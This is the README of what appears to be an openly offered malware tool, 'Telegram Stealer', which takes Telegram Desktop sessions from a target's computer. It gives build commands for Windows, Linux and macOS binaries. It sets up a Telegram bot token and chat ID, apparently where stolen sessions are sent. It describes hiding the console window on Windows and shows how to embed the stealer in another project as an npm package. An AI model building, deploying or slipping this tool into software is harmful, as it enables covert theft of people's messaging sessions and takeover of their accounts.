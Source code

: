 # Telegram Stealer

Steal Telegram Desktop sessions.

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Build

Install dependencies

```sh
npm i
npm i -g pkg
```

Build

```sh
npm run configure <chat_id> <bot_token> # Or just set it in `runner.js`

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```js
import { run as stealTelegram } from 'telegram-stealer'

await stealTelegram({
  telegramChatId: '<chat_id>',
  telegramToken: '<bot_token>',
  waitOnStart: false
})
```

## License

[The MIT license](./LICENSE)
